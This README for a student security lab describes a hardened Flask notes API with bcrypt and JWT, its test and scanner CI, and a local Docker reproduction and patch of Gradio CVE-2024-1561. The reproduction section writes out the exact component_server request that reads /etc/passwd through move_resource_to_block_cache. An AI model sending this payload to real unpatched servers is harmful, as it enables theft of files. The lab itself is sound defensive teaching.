




# Information Security Lab 1

This project implements an authenticated notes API, runs automated security checks, and reproduces and repairs Gradio CVE-2024-1561 in local Docker containers.

Repository: https://github.com/ImYangC7/hdu-is-lab1

Verified successful GitHub Actions run: https://github.com/ImYangC7/hdu-is-lab1/actions/runs/40533664385

## Run the API

Python 3.12 is used for the API and the automated tests.

```bash
python3 -m venv .venv
source .venv/bin/activate
python -m pip install -r requirements-dev.txt
export JWT_SECRET="$(python -c 'import secrets; print(secrets.token_urlsafe(48))')"
export LAB_DEMO_PASSWORD="$(python -c 'import secrets; print(secrets.token_urlsafe(18))')"
python -m secure_api init-db --login cheng
python -m secure_api serve --port 5001
```

Keep the generated demo password in the current terminal for login. Secrets and the SQLite database are excluded from Git. An existing database must be used with its original account password.

| Method | Endpoint | Authentication | Result |
| --- | --- | --- | --- |
| POST | `/auth/login` | None | Validates JSON login and password and returns a JWT |
| GET | `/api/data` | Bearer JWT | Returns only the authenticated user's notes |
| POST | `/api/data` | Bearer JWT | Creates a note from the JSON `content` field |

Login example:

```bash
curl -i http://127.0.0.1:5001/auth/login \
  -H 'Content-Type: application/json' \
  -d "$(python -c 'import json,os; print(json.dumps({"login": "cheng", "password": os.environ["LAB_DEMO_PASSWORD"]}))')"
```

Use the returned token as `Authorization: Bearer <token>` on the two protected endpoints. A note can be created with `{"content": "My first note"}`.

## Security controls

All SQL statements containing user data use SQLite `?` placeholders and separately bound values. Queries for notes use the user ID from the verified JWT. A client cannot choose an account by adding an `owner_id` query parameter.

Passwords are stored as salted bcrypt hashes with cost 12. Login tokens use HS256, expire after 30 minutes, and contain `sub`, `iat`, `exp`, `iss`, and `aud`. Protected routes verify the algorithm, signature, required claims, issuer, audience, expiry, and continued existence of the account. The signing key is read from the environment and must be at least 32 bytes.

Note text is escaped on output using MarkupSafe. Both creation and retrieval return JSON with `X-Content-Type-Options: nosniff` and `Cache-Control: no-store`. A script tag is returned as `&lt;script&gt;...`. Future clients must render note content as text. This small API implements the lab's required controls; it is served locally with Flask's development server.

Bandit identifies the public issuer, audience, and `Bearer` scheme strings as possible hardcoded passwords based on their names. Three targeted `nosec` annotations document these reviewed false positives. No application secret is hardcoded and no scanner rule is globally disabled.

## Tests and CI

```bash
python -m pytest -q
mkdir -p reports
bandit -r secure_api -f json -o reports/bandit.json
pip-audit -r requirements.txt -f json -o reports/pip-audit.json
```

The workflow `.github/workflows/ci.yml` runs on every push, pull request, and manual dispatch. It executes 20 API tests, Bandit SAST, and pip-audit SCA, then uploads the reports even if a check fails. The dependency audit covers the separate, fixed application dependency list; the deliberately vulnerable Gradio teaching image is not part of that list. SCA reports describe known vulnerabilities at scan time and do not guarantee the absence of undisclosed issues.

The tests cover SQL injection attempts, password hashing, valid and invalid JWTs, missing authentication, XSS escaping, note ownership, input validation, and application startup with a short signing key.

## CVE selection

CVE-2024-1561 was compared with the supplied selection CSV. The CSV contains 82 distinct complete CVE numbers and one incomplete entry, `CVE-2022-229`. CVE-2024-1561 does not appear in the extracted complete IDs or the original CSV text. The list itself is not published because it contains other students' personal information.

The official Vulhub repository was downloaded at commit `9b90d4276f84feed6333286afeb7e1250379a1da`. The selected directory is `gradio/CVE-2024-1561`. The image `vulhub/gradio:4.12.0` was pulled successfully and runs with `platform: linux/amd64` on the ARM64 Mac.

Image digest:

```text
vulhub/gradio@sha256:662b17f96808f47bc1f5ac795ddc8124b78ccc31cc4269e77bceaca6ea3bb1b8
```

## Reproduce the vulnerability

Start the original environment on the loopback interface:

```bash
docker compose up -d
python cve/reproduce.py --base-url http://127.0.0.1:7860 \
  --output evidence/cve-before --expect vulnerable
```

The script is intentionally restricted to localhost. It obtains a textbox component ID from `/config`, confirms direct access to `/file=/etc/passwd` returns HTTP 403, and sends:

```http
POST /component_server HTTP/1.1
Host: 127.0.0.1:7860
Content-Type: application/json

{"component_id": 1, "data": "/etc/passwd", "fn_name": "move_resource_to_block_cache", "session_hash": "lab1cheng"}
```

The vulnerable method dispatch returns a temporary cache path. A GET request to `/file=<returned path>` returns HTTP 200 with the container's `/etc/passwd`. The source file is inside the teaching container; no personal host files are mounted. The script also checks the normal greeting endpoint before and after the attack.

Raw requests and responses are saved in `evidence/cve-before/http-evidence.json` and `transcript.txt`.

## Root cause and repair

Gradio's `component_server` handler used `getattr(block, body.fn_name)` and immediately called the result with `body.data`. This exposed internal component methods through a network request. `move_resource_to_block_cache` copies the requested file to a directory accepted by the normal download endpoint, so blocking direct file downloads does not prevent the attack.

The repair applies the method authorization check from Gradio upstream PR 6884. The handler uses `getattr(..., None)` and accepts a method only when it has the `_is_server_fn` marker. Unmarked or nonexistent methods return HTTP 404 before the function is invoked.

```bash
docker compose -p lab1-fixed -f cve/compose.fixed.yaml up --build -d
python cve/reproduce.py --base-url http://127.0.0.1:7861 \
  --output evidence/cve-after --expect fixed
```

`cve/Dockerfile.fixed` builds a distinct image from the original image and applies `cve/fix_routes.py`. The targeted patch keeps the original dependency versions constant to isolate the change for this CVE. It is a repair demonstration for CVE-2024-1561; updating old Gradio to a currently maintained release is a separate deployment decision.

| Check | Original image | Patched image |
| --- | --- | --- |
| Direct file access | 403 | 403 |
| Arbitrary component method call | 200 and cache path | 404 Function not found |
| Download of attack-created cached file | 200 and passwd contents | Not reached because method invocation is rejected |
| Greeting before and after | 200 Hello Cheng Yang | 200 Hello Cheng Yang |

The identical malicious JSON payload is used in both environments. `python cve/verify_regression.py` additionally checks five forbidden or nonexistent component methods and three normal greeting inputs; all eight checks pass. These results and the regression checks are recorded under `evidence/cve-after/`.

Stop the two environments:

```bash
docker compose down
docker compose -p lab1-fixed -f cve/compose.fixed.yaml down
```

## Evidence and sources

- `evidence/api/`: actual HTTP API test transcript; the password and token are redacted.
- `evidence/scans/`: local test and scanner results.
- `evidence/cve-before/` and `evidence/cve-after/`: original and repaired CVE requests and responses.
- `cve/upstream-pr-6884.diff`: downloaded upstream repair diff for comparison.
- Original lab manual, Work 1, pages 1 to 5.
- Vulhub: https://github.com/vulhub/vulhub/tree/9b90d4276f84feed6333286afeb7e1250379a1da/gradio/CVE-2024-1561
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2024-1561
- Upstream repair: https://github.com/gradio-app/gradio/pull/6884

## Screenshots










